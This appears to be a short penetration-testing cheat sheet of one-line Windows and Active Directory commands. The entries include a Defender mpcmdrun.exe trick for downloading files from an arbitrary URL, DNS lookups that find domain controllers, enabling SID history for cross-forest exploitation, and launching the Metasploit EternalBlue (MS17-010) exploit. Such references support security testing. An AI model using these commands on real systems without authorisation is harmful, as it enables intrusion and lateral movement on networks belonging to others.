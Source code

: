 ## windows download file with windows defender
```
mpcmdrun.exe -DownloadFile -url <url> -path <result_file>
```

% windows, active directory, dns

## find AD IP - show domain name and dns
```
nmcli dev show <interface>
```

## nslookup AD - domain
```
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain_name>
```

% windows, active directory

## enable sid history
Enable history on source domain for target domain (useful for forest extra SID exploitation)
```
netdom trust <source_domain> /d:<target_domain> /enablesidhistory:yes
```

% windows, cve
## windows eternal blue - smb - ms17-010
```
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
```

= interface: eth0

#plateform/linux  #target/remote  #cat/RECON 

## Find Domain Controllers
```
nslookup _ldap._tcp.dc._msdcs
```

